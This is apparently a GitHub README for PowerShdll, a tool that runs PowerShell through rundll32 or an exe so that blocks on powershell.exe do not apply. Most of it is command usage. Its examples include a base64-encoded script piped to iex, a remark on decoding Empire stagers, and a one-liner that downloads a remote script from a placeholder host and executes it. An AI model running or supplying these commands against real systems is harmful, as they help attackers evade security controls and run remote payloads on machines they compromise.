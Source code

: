 # PowerShdll
Run PowerShell with dlls only.
Does not require access to powershell.exe as it uses powershell automation dlls.

## dll mode:

```
Usage:
rundll32 PowerShdll,main <script>
rundll32 PowerShdll,main -f <path>       Run the script passed as argument
rundll32 PowerShdll,main -w      Start an interactive console in a new window
rundll32 PowerShdll,main -i      Start an interactive console in this console
If you do not have an interractive console, use -n to avoid crashes on output
```

## exe mode

```
Usage:
PowerShdll.exe <script>
PowerShdll.exe -f <path>       Run the script passed as argument
PowerShdll.exe -i      Start an interactive console in this console
```
## Examples
### Run base64 encoded script
```
rundll32 Powershdll.dll,main [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex
```
Note: Empire stagers need to be decoded using [System.Text.Encoding]::Unicode
### Download and run script
```
rundll32 PowerShdll.dll,main . { iwr -useb https://website.com/Script.ps1 } ^| iex;
```
## Requirements
.Net v3.5 for dll mode.
.Net v2.0 for exe mode.

## Known Issues

Some errors do not seem to show in the output. May be confusing as commands such as Import-Module do not output an error on failure.
Make sure you have typed your commands correctly.

In dll mode, interractive mode and command output rely on hijacking the parent process' console. If the parent process does not have a console, use the -n switch to not show output otherwise the application will crash.

Due to the way Rundll32 handles arguments, using several space characters between switches and arguments may cause issues. Multiple spaces inside the scripts are okay.

